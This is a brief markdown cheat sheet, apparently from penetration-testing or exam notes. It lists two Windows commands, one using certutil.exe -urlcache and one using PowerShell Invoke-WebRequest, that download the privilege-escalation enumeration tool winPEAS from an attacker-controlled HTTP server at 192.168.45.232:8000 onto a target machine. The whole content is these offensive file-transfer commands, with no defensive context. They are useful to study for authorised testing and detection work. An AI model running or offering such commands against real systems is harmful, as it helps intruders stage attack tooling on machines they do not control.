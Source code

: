 # Winodws
## cmd.exe
```
certutil.exe -f -urlcache http://192.168.45.232:8000/winpeas.exe c:\windows\temp\winpeeas.exe
```

## Powershell
```
Invoke-WebRequest http://192.168.45.232:8000/winpeas.exe -OutFile winpeas.exe
```